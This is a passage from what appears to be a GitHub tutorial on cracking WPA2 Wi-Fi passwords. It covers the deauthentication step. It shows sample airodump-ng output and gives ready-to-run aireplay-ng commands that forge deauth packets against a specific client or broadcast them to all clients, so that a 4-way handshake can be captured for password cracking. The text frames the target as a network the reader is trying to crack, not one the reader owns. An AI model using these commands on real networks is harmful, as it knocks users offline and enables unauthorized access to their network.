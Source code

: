 ```
```

## Deauth Attack

A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with `airodump-ng`. 

Use `airodump-ng` to monitor a specific access point (using `-c channel --bssid MAC`) until you see a client (`STATION`) connected. A connected client look something like this, where is `64:BC:0C:48:97:F7` the client MAC.

```
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```

Now, leave `airodump-ng` running and open a new terminal. We will use the `aireplay-ng` command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process.

```bash
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```

You can optionally broadcast deauth packets to all connected clients with:

```bash
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
``` 

Once you've sent the deauth packets, head back over to your `airodump-ng` process, and with any luck you should now see something like this at the top right: `[ WPA handshake: 9C:5C:8E:C9:AB:C0`. Now that you've captured a handshake you should be ready to [crack the network password](#cracking-the-network-password).

## List of Commands
